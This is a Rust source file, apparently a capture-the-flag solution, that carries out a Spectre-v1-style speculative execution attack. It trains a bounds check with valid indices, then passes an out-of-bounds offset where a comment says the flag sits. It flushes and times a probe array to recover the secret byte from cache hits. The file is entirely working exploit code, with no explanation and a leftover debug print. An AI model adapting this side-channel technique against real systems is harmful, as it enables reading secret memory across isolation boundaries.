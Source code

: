 ```rs
extern "C" {
    fn get_data_size() -> u64;
    fn get_host_info() -> u64;
    fn debug_flush(n:u64);
    fn debug_read(n:u64);
    fn debug_ts() -> u64;
    fn check_data(n:u32);
}

#[no_mangle]
pub fn this_is_what_ive_got() -> i32 {
    let datasize = unsafe{get_data_size()};
    let data5 = datasize + 0x550;
    let offset = 0x100;     // flag is at offset 0x100 from data3, gradually increment to read the whole flag

    let mut results: [i32; 256] = [0; 256];

    let malicious_x = offset;
    for tries in 0..1000 {
        for n in 0..256 {
            unsafe{debug_flush(data5 + n * 512)};
        }

        let training_x = tries % 16;
        for j in 0..30 {
            unsafe{debug_flush(datasize)};
            for n in 1..=100 {
                
            }        

            let x: i32 = ((j % 6) - 1) & !0xFFFF;
            let x = (x | (x >> 16));
            let x = training_x ^ (x & (malicious_x ^ training_x));

            unsafe{check_data(x as u32)};
        }

        for n in 0..256 {
            let mix_n = ((n * 167) + 13) & 255;
            let start = unsafe{debug_ts()};

            unsafe{debug_read(data5 + mix_n * 512)};

            let diff = unsafe{debug_ts()} - start;
            
            if (diff < 0x200) {
                results[mix_n as usize] += 1;
            }
        }
    }

    println!("OK: {}", results[119]);

    let mut best = 0;
    for i in 0..256 {
        if (results[i] > results[best]) {
            best = i;
        }
    }

    return best as i32;
}
```